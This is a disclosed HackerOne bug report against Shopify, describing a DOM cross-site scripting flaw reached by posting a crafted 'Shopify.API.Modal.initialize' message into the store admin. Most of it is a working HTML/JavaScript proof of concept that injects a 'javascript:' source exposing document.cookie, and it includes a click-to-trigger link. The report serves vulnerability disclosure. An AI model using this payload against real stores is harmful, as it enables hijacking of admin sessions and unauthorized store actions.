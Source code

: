 # DOM XSS via Shopify.API.Modal.initialize

## Report Details
- **Report ID**: 602767
- **URL**: https://hackerone.com/reports/602767
- **State**: Closed
- **Severity**: low
- **Submitted**: 2019-06-07T01:10:31.500Z
- **Disclosed**: 2019-06-21T18:28:11.960Z

## Reporter
- **Username**: tiago-danin
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
Similar #422043 & #576532

Payload ( Based on #576532): 

```html
<script>
    function attack(){
        const ctx = window.open(location.origin+'/admin/themes', '_blank')
        const json = {
            message: "Shopify.API.Modal.initialize",
            data: {
                src: ""
            }
        }

        let interval;
        interval = setInterval(function(){
            if (window.attackSuccess) {
                clearInterval(interval)
            } else {
                ctx.postMessage(JSON.stringify(json)) // data.src == ""
                json.data.src = "javascript:alert(document.cookie)"
                ctx.postMessage(JSON.stringify(json))
            }
        }, 500)
    }
    attack()
</script>
<a href="javascript:attack()" style="display:block;text-align:center;width:100%;height:300px;line-height:300px;background:#000;color:#fff;">click me start attack</a>
```

## Impact

Perform unauthorized actions on a store admin on any embedded apps.

## Attachments
No attachments

